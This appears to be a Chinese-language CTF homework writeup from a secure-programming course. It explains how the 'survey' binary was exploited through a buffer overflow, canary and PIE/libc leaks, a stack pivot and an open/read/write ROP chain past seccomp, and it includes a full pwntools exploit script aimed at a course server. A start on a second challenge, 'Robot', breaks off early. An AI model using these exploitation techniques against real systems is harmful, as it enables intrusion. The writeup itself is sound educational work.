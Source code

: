 ###### tags: `程式安全`
# Secure Programming HWA Writeup
## Survey
### 解法
用checksec可以發現防禦機制全開QQ
seccomp tools則顯示只能使用open,read,write等syscall

首先看一下IDA decompile的code，可以知道buffer的大小為24，可是read讀的大小卻是48，所以有buffer overflow的洞，而且可以read兩次
```c=
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  sub_1199();
  printf("What is your name : ");
  fflush(stdout);
  read(0, buf, 0x30uLL);
  printf("Hello, %s\nLeave your message here : ", buf);
  fflush(stdout);
  read(0, buf, 0x30uLL);
  printf("We have received your message : %s\nThanks for your feedbacks\n", buf);
  fflush(stdout);
  return 0LL;
}
```
#### 第一輪input:
因為在return之前必須把return address蓋掉，一定要花一次read來執行攻擊，只有一次read可以拿來讀canary跟PIE base等資訊

讀canary可以利用上課講到的方式，用25個a剛好蓋掉canary的null byte就可以將canary接在buffer後面印出來，還可以順便把saved rbp接著一起印出來

不過這樣還是沒有PIE base，仔細觀察leak的rbp可以發現它的值的區間會落在vmmap中的survey部份，所以可以藉leak的rbp跟PIE base的差值去算出PIE的base

拿到canary跟PIE base之後，就可以去把return address蓋成別的address，還需要libc base才能執行一些libc的function，所以先跳回第一次printf的位置，繼續做read
不能跳到main開頭是因為接下來會跑seccomp，seccomp中用到的syscall已經被第一次的seccomp給ban掉了，會出事

然後第一輪第二次的read需要蓋掉rbp去準備做stack pivot，要做stack pivot的原因是read的大小只有48個byte，只能蓋到return address，不夠串ROP chain
stack pivot選擇bss段的後面位置，因為bss段可寫加上一次allocate memory是0x1000，後面會有空的區域
執行完第一輪的第二次read後，rbp就已經被搬到bss區段了

#### 第二輪input:
第二輪的第一次read不重要，會被第二次蓋掉，所以隨便輸
第二輪的第二次read的目的是讀libc，方法是助教大大提到的讀取stack中殘留的libc address
讓printf之類的libc address使用後殘留在新的stack上，payload跟第一輪的第二次read一樣

#### 第三輪input:
用gdb偷看stack，發現libc殘留的address剛好在rbp-0x20的地方，所以第一次read輸入它的最後一個byte，就可以接著把libc的address印出來
同時利用vmmap去看libc的base address，算出leak的address與base的差值，之後把leak的address減掉差值就會是libc base了

有了libc後，第二次read就可以使用準備好的stack pivot開始執行ROP chain，先call gets來解放read的長度限制，讓接下來可以直接一次串好orw的ROP chain
gets的參數放的buffer位置為PIE+bss-0x8，原因是gets return完剛好會pop canary那個位置的東東，canary的位置正好在原本的rbp-0x8的地方，就是PIE+bss-0x8
這樣的話gets吃到的orw ROP chain就會剛好接續執行，很舒服
新的rbp則放PIE+bss-0x28，因為第二次leave;ret會pop新的rbp，所以要讓新的rbp比read吃的位置rbp-0x20再低8個byte，才不會pop到pop rdi的gadget
最後return address放leave;ret的gadget執行stack pivot的操作，讓輸入最前面的pop rdi gadget開始執行

gadget的部份，rdi是使用ROPgadget去survey裡面尋找pop rdi ; ret找到的
gets_offset則是使用readelf到libc裡面去找的

第二次read輸入：
```
p64(PIE_base + pop_rdi) + p64(PIE_base + bss - 0x8) + p64(libc_base + gets_offset) + canary +\
          p64(PIE_base + bss - 0x28) + p64(PIE_base + leave)
```

#### gets input:
就繼續串orw的ROP chain，重點是open不能call libc function，因為libc是用open64，底層會用到openat syscall，不合法XD
所以我open改成直接用syscall
open的參數後兩個都放0，因為只要read就好，第一個要放path，把path塞在rop chain的最後面，算好address填進第一個參數就行

read要先吃fd，因為沒開其他fd，所以直接填3，buffer位置就設在ROP chain後面，不要蓋到gadget就好，size設成50，flag應該不會很長

write的fd就stdout，也就是1，buffer位置跟size就設成跟read一樣

gadget的部份rsi是去survey找的，但是沒有pop rsi ; ret，只好找pop rsi ; pop r15 ; ret
rdx跟rax去libc-2.29.so找的
syscall不知道為啥在libc-2.29.so用syscall ; ret找不到，最後用--opcode 0F05C3找才找到
read跟write的offset一樣是用readelf在libc裡面找到的

串好執行就會看到flag了

#### 腳本
```python=
#!/usr/bin/python3
from pwn import *

main_printf_offset = 0x1235
bss = 0x4C00

gets_offset = 0x832f0
open_offset = 0x10cc80
read_offset = 0x10cf70
write_offset = 0x10d010

# survey ROPgadget
pop_rdi = 0x1353
pop_rsi_r15 = 0x1351
leave = 0x12e1

# libc ROPgadget
pop_rdx = 0x12bda6
pop_rax = 0x47cf8
syscall = 0xe26f5

#r = process('./survey')
r = remote('140.112.31.97',30201)

# first round input
r.sendafter(': ','a'*25)
r.recvuntil('a'*25)
canary = b'\x00' + r.recv(7)
print(f"Canary: {hex(u64(canary))}")
PIE_base = u64(r.recv(6) + b'\x00\x00') - 0x12f0
print(f"PIE base: {hex(PIE_base)}")

padding = b'a'*24
payload = padding + canary + p64(PIE_base+bss) + p64(PIE_base+main_printf_offset)
r.sendafter(': ',payload)

# second round input
r.sendafter(': ','doge')
payload = padding + canary + p64(PIE_base+bss) + p64(PIE_base+main_printf_offset)
r.sendafter(': ',payload)

# third round input
r.sendafter('name : ',b'\x60')
res = r.recvuntil('\nLeave', drop=True)[7:]
libc_base = u64(res + b'\x00\x00') - 0x1e6560
print(f"lic base: {hex(libc_base)}")

payload = p64(PIE_base + pop_rdi) + p64(PIE_base + bss - 0x8) + p64(libc_base + gets_offset) + canary +\
          p64(PIE_base + bss - 0x28) + p64(PIE_base + leave)
r.sendafter('here : ',payload)

# gets input
filename_address = PIE_base + bss - 0x8 + 0xd8
read_buffer_address = PIE_base + bss - 0x8 + 0xe8

payload = p64(PIE_base + pop_rdi) + p64(filename_address) + p64(PIE_base + pop_rsi_r15) + p64(0) + p64(0) + p64(libc_base + pop_rdx) + p64(0) + p64(libc_base + pop_rax) + p64(2) + p64(libc_base + syscall) +\
          p64(PIE_base + pop_rdi) + p64(3) + p64(PIE_base + pop_rsi_r15) + p64(read_buffer_address) + p64(0) + p64(libc_base + pop_rdx) + p64(50) + p64(libc_base + read_offset) +\
          p64(PIE_base + pop_rdi) + p64(1) + p64(PIE_base + pop_rsi_r15) + p64(read_buffer_address) + p64(0) + p64(libc_base + pop_rdx) + p64(50) + p64(libc_base + write_offset) +\
          p64(PIE_base+main_printf_offset) + b'/home/survey/flag' + b'\x00'*7 
r.sendline(payload)
r.interactive()
```
## Robot
### 解法：
先說我沒解完QQ，我就講到我做的地方跟我剩下想做的事情
首先checksec確定stack沒canary跟RELRO為partial RELRO，有開NX跟PIE